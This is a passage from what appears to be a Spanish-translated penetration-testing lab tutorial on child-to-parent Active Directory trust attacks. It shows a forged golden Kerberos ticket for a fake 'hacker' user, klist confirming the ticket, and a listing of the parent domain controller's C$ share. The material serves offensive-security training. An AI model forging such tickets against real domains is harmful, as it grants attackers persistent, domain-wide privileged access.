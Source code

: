```powershell-session
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```

Podemos confirmar que el boleto de Kerberos para el usuario de hacker inexistente reside en la memoria.

#### Confirmar que un boleto de Kerberos está en memoria usando Klist

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Desde aquí, es posible acceder a cualquier recurso dentro del dominio principal, y podríamos comprometer el dominio principal de varias maneras.

#### Listado a toda la C: unidad del controlador de dominio

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
 Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\academy-ea-dc01.inlanefreight.local\c$

09/15/2018  12:19 AM    <DIR>          PerfLogs
10/06/2021  01:50 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
11/19/2021  12:17 PM    <DIR>          Shares
10/06/2021  10:31 AM    <DIR>          Users
03/21/2022  12:18 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  18,080,178,176 bytes free
```

---